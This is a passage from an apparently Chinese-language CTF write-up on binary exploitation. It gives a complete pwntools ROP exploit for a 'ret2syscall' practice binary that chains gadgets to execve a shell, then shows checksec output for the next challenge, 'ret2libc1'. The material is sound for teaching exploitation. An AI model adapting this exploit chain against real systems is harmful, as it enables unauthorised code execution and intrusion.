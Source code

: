 现在已经凑齐了所有要素，可以开始写 exploit 。

### exploit

```python
import pwn
import struct

p = pwn.process('./bin/ret2syscall')

# gadgets chain
gadget1 = pwn.p32(0x080bb196) # pop eax; ret
eax = pwn.p32(11)
gadget2 = pwn.p32(0x0806eb90) # pop edx; pop ecx; pop ebx; ret
edx = pwn.p32(0)
ecx = pwn.p32(0)
ebx = pwn.p32(0x080be408)
gadget3 = pwn.p32(0x08049421) # int 0x80

payload = b''.join([b'A'*112, gadget1, eax, gadget2, edx, ecx, ebx, gadget3])
p.sendline(payload)
p.interactive()
```

![image-20220824143615364](image-20220824143615364.png)

## ret2libc1

### 基本信息

```plaintext
# file
bin/ret2libc1: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=fb89c86b266de4ff294489da59959a62f7aa1e61, with debug_info, not stripped
# checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

